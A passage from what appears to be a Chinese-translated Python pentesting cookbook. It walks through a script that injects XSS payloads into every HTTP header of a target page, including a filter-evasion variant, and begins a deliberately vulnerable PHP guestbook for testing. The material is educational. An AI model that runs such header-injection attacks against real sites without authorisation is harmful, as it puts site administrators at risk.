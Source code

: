 该脚本不会提供任何输出，因为它以功能的管理端为目标。但是，您可以通过以下方式轻松设置它，以便在每个循环上提供输出：

```py
Print "Submitted "+payload
```

每次都会返回以下内容：

```py
Submitted <script>alert(1);</script>
```

## 它是如何工作的…

我们导入此脚本所需的库，并以`sys.argv`函数的形式进行输入。在这一点上，你应该相当相信这一点。

再一次，我们可以将有效负载声明为列表，而不是字典，因为我们将把它们与网页提供的值配对。我们还创建了一个空字典来存放我们未来的攻击配对：

```py
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
headers ={}
```

然后我们向网页发出`HEAD`请求，只返回我们攻击的页面的标题。`HEAD`请求可能被禁用，尽管可能性不大；但是，如果是，我们可以用标准的`GET`请求来代替：

```py
r = requests.head(url)
```

我们循环使用前面设置的有效负载和从前面`HEAD`请求中提取的头文件：

```py
for payload in payloads:
  for header in r.headers:
```

对于每个有效负载和头，我们将它们成对添加到前面设置的空字典中：

```py
headers[header] = payload
```

对于有效载荷的每个迭代，我们随后提交所有具有该有效载荷的头部，因为我们显然不能提交每个头部的多个：

```py
req = requests.post(url, headers=headers)
```

由于攻击的活动部分发生在管理员的客户端，因此需要使用管理员帐户进行手动检查，或者需要联系管理员以查看是否在日志记录链中的任何位置激活了攻击。

## 另见

以下是可用于测试前面脚本的设置。这与早期的 XSS 检查脚本非常相似。这里的区别是，传统的 XSS 方法将由于`strip_tags`函数而失败。它演示了需要使用非常规方法执行攻击的情况。显然，在注释中返回用户代理是人为的，尽管这在野外很常见。它们需要保存为工作所需的文件名，并与 MySQL 数据库一起存储注释。

以下是第一个名为`guestbook.php`的界面页面：

```py
<?php

$my_rand = rand();

if (!isset($_COOKIE['sessionid4'])){
  setcookie("sessionid4", $my_rand, "10000000000", "/xss/vhard/");
}
?>

<form id="contact_form" action='addguestbook.php' method="post">
  <label>Name: <input class="textfield" name="name" type="text" value="" /></label>
  <label>Comment: <input class="textfield" name="comment" type="text" value="" /></label>
  <input type="submit" name="Submit" value="Submit"/> 
</form>
```